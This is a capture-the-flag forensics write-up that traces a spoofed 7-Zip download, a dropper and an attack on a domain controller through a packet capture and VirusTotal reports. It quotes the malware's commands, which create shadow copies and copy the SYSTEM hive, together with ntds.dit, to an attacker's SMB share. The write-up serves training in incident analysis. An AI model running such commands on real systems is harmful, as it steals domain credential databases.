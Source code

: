 ```
Everything seemed quiet on the meridion.tech domain network... until the SOC detected suspicious activity on the domain controller. Your role: inspect the network traffic and trace the chain of events.

You have all the pieces of the puzzle in this dump. It’s up to you to reconstruct the attack…

Archive password : deepescape

Here are the several flag components :

    1. The spoofed website
    2. The name of the malicious binary
    3. Attacker's IP
    4. The first exfiltrated file
    5. The second exfiltrated file
    6. The path of the attacker's remote folder
    7. The password
    8. The technique used by the binary to exfiltrate files

Format : MCTF{1:2:3:4:5:6:7:8} (case insensitive)
Example: MCTF{www.google.com:malware.exe:192.168.1.1:logs.txt:hosts:\\192.168.1.1\mails\MAILSERVER\:P@$$sw0rd:TechniqueName}
```

First I will use Network Miner in order to get a global view on this capture (files/credentials...)

In order to find what website was spoofed (and I supposed that the binary was downloaded from the malicious website), I will check every executable present in this capture and send them to [https://www.virustotal.com](https://www.virustotal.com) and see if it detects something suspicious, I found 2 executables :

![alt text](note/ctf/Midnight_2025/asset/deepescape0.png)

Let's put them into VirusTotal and see which one is malicious!

![alt text](note/ctf/Midnight_2025/asset/deepescape1.png)

It seems that `7z2409-x64.exe` is suspicious... and if we look at the details in Network Miner, we can see that it comes from `www.7-zip.org` so this is the spoofed website. But who spoofed it? Let's see in the DNS section which IPs are associated with this domain.

![alt text](note/ctf/Midnight_2025/asset/deepescape2.png)

Okay so 192.76.28.19 and 192.76.28.1 appear, but which one is the attacker IP we are looking for? Well, there are a lot of ways of finding it, here is one:

We go on Wireshark and search for protocols that manage remote folders (like SMB/SMB2) and by applying the filter smb2 we find this! :

![alt text](note/ctf/Midnight_2025/asset/deepescape3.png)

So the attacker IP is 192.76.28.19 and if we continue to analyze the SMB2 protocol we find the files that the attacker extracted :

![alt text](note/ctf/Midnight_2025/asset/deepescape4.png)

Okay, the files are ntds.dit and SYSTEM and they are extracted into `\\192.76.28.19\work\DC01\` now I need to find the password used for the extraction.

My first thought was to crack the NTLMv2 hash with rockyou.txt (you can find it with Network Miner in the credentials section or can just build it with Wireshark packet) but brute-force didn't work so I had to find another way.

If the malware extracted those files, it might contain the password right? Also, why lose time doing reverse when the behavior analysis from [https://www.virustotal.com](https://www.virustotal.com) can tell you a lot of info by executing this malware? [https://www.virustotal.com/gui/file/17a5512e09311e10465f432e1a093cd484bbd4b63b3fb25e6fbb1861a2a3520b/behavior](https://www.virustotal.com/gui/file/17a5512e09311e10465f432e1a093cd484bbd4b63b3fb25e6fbb1861a2a3520b/behavior)

If we go into the Files written section we find this: C:\Users\user\AppData\Local\Temp\firefox\_bundle\payload.exe

A payload named payload.exe is written... interesting! It means that 7z2409-x64.exe is only a dropper so our target is that payload.exe!

If we go into the file drop section we can find the sha256 of payload.exe (it will allow us to enter it into VirusTotal and analyze it), let's enter the sha256 of this payload and launch a behavior analysis! [https://www.virustotal.com/gui/file/409947e013b06cd8adc9f34b9f2a0ba11cca37ffc7c476740c73b1d91e6fd00c/behavior](https://www.virustotal.com/gui/file/409947e013b06cd8adc9f34b9f2a0ba11cca37ffc7c476740c73b1d91e6fd00c/behavior)

The Shell commands section contains a lot of info!

![alt text](note/ctf/Midnight_2025/asset/deepescape5.png)

The password is : `MyThreatPassword123+` and everything we got is confirmed! The IP `192.76.28.19`, the remote folder `\\192.76.28.19\work\DC01\`, the 2 files (ntds.dit and SYSTEM) and even the technique used :

```shell
%ComSpec% /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" "\\192.76.28.19\work\DC01\SYSTEM" >nul
%ComSpec% /c vssadmin create shadow /for=C: >nul 2>&1
%ComSpec% /c vssadmin list shadows
%SAMPLEPATH%
vssadmin create shadow /for=C:
vssadmin list shadows
```

This way of exfiltrating data has a specific name: it's a Shadow Copy exfiltration so the technique used is `ShadowCopy`

We got everything to flag this!

`MCTF{www.7-zip.org:7z2409-x64.exe:192.76.28.19:ntds.dit:SYSTEM:\\192.76.28.19\work\DC01\:MyThreatPassword123+:ShadowCopy}` 
